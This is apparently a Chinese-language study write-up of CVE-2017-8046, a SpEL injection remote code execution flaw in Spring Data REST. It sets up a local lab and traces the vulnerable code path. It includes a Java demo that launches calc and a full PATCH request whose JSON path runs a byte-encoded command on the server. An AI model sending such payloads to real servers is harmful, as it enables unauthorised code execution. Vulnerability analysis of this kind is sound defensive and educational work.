# CVE-2017-8046

> 今天来分析java spring框架中的SpEL表达式注入漏洞。
>
>因为没有学过Spring框架，和SpEL表达式，所以现在来简单的了解一下。

Pivotal官方发布通告表示Spring-data-rest服务器在处理PATCH请求时存在一个远程代码执行漏洞（CVE-2017-8046）。攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。官方已经发布了新版本修复了该漏洞。

受影响的版本

- Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
- Spring Boot version < 2.0.0M4
- Spring Data release trains < Kay-RC3

不受影响的版本

- Spring Data REST 2.5.12, 2.6.7, 3.0RC3
- Spring Boot 2.0.0.M4
- Spring Data release train Kay-RC3

## 提前知识

[Spring框架（一）简单介绍](https://blog.csdn.net/muyi_amen/article/details/53907386)

[Spring表达式语言SpEL](https://www.cnblogs.com/figsprite/p/10774345.html)

[Java代码审计之SpEL表达式注入](https://www.freebuf.com/vuls/197008.html)

而简单的说就是，SpEL可以调用方法及引用对象中的属性,从而可以执行命令

使用` T（Type）`来表示java.lang.Class实例，“ Type”必须是类全限定名，“ java.lang”包除外，即该包下的类可以不指定包名；

## 环境搭建

使用的项目为https://github.com/spring-guides/gs-accessing-data-rest.git里面的complete，直接用IDEA导入，并修改pom.xml中版本信息为漏洞版本。这里改为1.5.6。



直接运行，默认端口8080，访问http://localhost:8080/



## 测试环境

`在真实漏洞之前我们写一个SpELTest.java来演示一下SpEL注入漏洞`

```java
package EZvulhub;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpELTest {
    public static void main(String[] args) {
        String SpEL = "T(java.lang.Runtime).getRuntime().exec('calc')";
        //
        testSpEL(SpEL);
    }
    private static void testSpEL(String spEL){
        ExpressionParser parser = new SpelExpressionParser();
        Expression exp = parser.parseExpression(spEL);
        exp.getValue();
    }
}

```



而上面就是通过去解析SpEL表达式形成的命令执行。

## 漏洞复现

我们去用POST请求新建一个people，请求如下

```http
POST /people HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 32

{"firstName":"l","lastName":"l"}
```



成功创建一个people对象，然后通过GET请求可以访问对象。



下一步就是利用漏洞

需要用PATCH方法，而且请求格式为JSON。根据RFC 6902，发送JSON文档结构需要注意以下两点：

1、请求头为Content-Type: application/json-patch+json

2、需要参数op、路径path，其中op所支持的方法很多，如test，add，replace等，path参数则必须使用斜杠分割

这样我们就可以构造payload了

```http
PATCH /people/1 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type:application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 124

[{ "op": "add", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName" }]
```



## 漏洞分析

程序入口：`org.springframework.data.rest.webmvc.config.JsonPatchHandler:apply()`中



`第一部分是通过断言的方法来判断请求的方法是不是Patch`如果是我们就进入`applyPatch()`方法



然后在跟进`getPatchOperations`方法



创建了一个对象并且调用`convert()方法`，跟进这个方法。

该方法最后返回一个`new Patch(ops)`



在跟进入`Patch`里面是一个List类型的`PatchOperation`


然后我们在跟进`PatchOperation`



发现是使用了SpEL表达式，我们在跟进` pathToExpression`



可以看到这是一个SPEL表达式解析操作，但是在解析之前调用了pathToSpEL()。进入到`pathToSpEL()`中



重新回到`org.springframework.data.rest.webmvc.config.JsonPatchHandler:applyPatch()`中



然后调用`apply`方法



跟进`perform`方法。


发现是一个抽象方法。看看他的实现。



实际上PatchOperation是一个抽象类，实际上应该调用其实现类的perform()方法。通过动态调试分析，此时的operation实际是ReplaceOperation类的实例(这也和我们传入的replace操作是对应的)
。进入到`ReplaceOperation:perform()`中，



在去看看`setValueOnTarget()`方法。在`setValueOnTarget()`中会调用spelExpression对spel表示式进行解析，从而触发漏洞。



## 参考

> https://www.cnblogs.com/co10rway/p/9380441.html
>
>https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA
>
>https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
>
>http://xxlegend.com/2017/09/29/Spring%20Data%20Rest%E6%9C%8D%E5%8A%A1%E5%99%A8PATCH%E8%AF%B7%E6%B1%82%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2017-8046%E8%A1%A5%E5%85%85%E5%88%86%E6%9E%90/